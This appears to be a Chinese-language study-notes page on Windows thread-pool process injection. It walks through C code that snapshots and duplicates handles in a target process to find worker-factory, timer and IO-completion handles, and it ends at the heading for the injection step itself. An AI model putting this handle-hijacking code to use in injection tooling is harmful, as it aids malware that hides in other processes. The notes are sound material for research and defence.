

repository: crootkit/crootkit.github.io · page: Windows internel/进程注入/Windows Thread Pool/index.html · generator: mkdocs

POC 来源：[Process Injection Using Windows Thread Pools | Safebreach](https://www.safebreach.com/blog/process-injection-using-windows-thread-pools/)
# 通用前置权限获取

## dump 句柄

在注入中，很多时候，需要拿到目标进程中的特定句柄，比如：
- tpworkerfactory 句柄
- timer （计时器）句柄
- iocompletion 句柄

### 流程

1、获取目标进程中的句柄计数，目的是为开辟句柄列表准备 size。

``` c
status = NtQueryInformationProcess(
	hTargetProcess,
	(PROCESSINFOCLASS)51,
	pProcessSnapshotInfo,
	handleInfoSize,
	NULL
);
```

``` c
handleInfoSize = sizeof(PROCESS_HANDLE_SNAPSHOT_INFORMATION) + ((totalHandles + 15) * sizeof(PROCESS_HANDLE_TABLE_ENTRY_INFO));
```

- 在 Windows 底层 API（如 NtQueryInformationProcess）返回列表数据时，通常采用一种“自带柔性数组（Flexible Array Member）的头部结构”。
- 这里+15 的目的是，dup 句柄之前是有时间延迟的，打出一个余量来。

``` c
typedef struct _PROCESS_HANDLE_SNAPSHOT_INFORMATION
{
    ULONG_PTR NumberOfHandles;
    ULONG_PTR Reserved;
    PROCESS_HANDLE_TABLE_ENTRY_INFO Handles[ANYSIZE_ARRAY]; // <--- 注意这里
} PROCESS_HANDLE_SNAPSHOT_INFORMATION;
```

2、获取目标进程中的句柄的值, 这里的值在当前进程中没有意义的，需要进行 dup。

通过一个循环，挨个 handle 进行 dup，然后依旧是通过 置 NULL 法来获取当前 handle 的对象大小，然后 query 信息保存，和传入的名称进行对比，如果是的话，就找到目标句柄了。

``` c
for (SIZE_T i = 0; i < pProcessSnapshotInfo->NumberOfHandles; i++)
	{
		if (!DuplicateHandle(
			hTargetProcess,
			pProcessSnapshotInfo->Handles[i].HandleValue,
			GetCurrentProcess(),
			&duplicatedHandle,
			desiredAccess,
			FALSE,
			NULL
		)) {
			continue;
		}

		// retrieve correct buffer size first
		NtQueryObject(duplicatedHandle,
			ObjectTypeInformation,
			NULL,
			NULL,
			(PULONG)&objectTypeReturnLen
		);

		objectInfo = (PPUBLIC_OBJECT_TYPE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, objectTypeReturnLen);
		if (objectInfo == nullptr) {
			break;
		}

		status = NtQueryObject(
			duplicatedHandle,
			ObjectTypeInformation,
			objectInfo,
			objectTypeReturnLen,
			NULL
		);

		if (status != ERROR_SUCCESS) {
			LOG_API_STATUS_ERROR(NtQueryObject, status);
			break;
		}

		if (wcsncmp(handleTypeName, objectInfo->TypeName.Buffer, wcslen(handleTypeName)) == 0)
		{
			std::wcout << L"[+] found \"" << objectInfo->TypeName.Buffer << L"\" handle, Hijacking successful." << std::endl;
			handleFound = true;
			break;
		}
```


# workfactory 注入
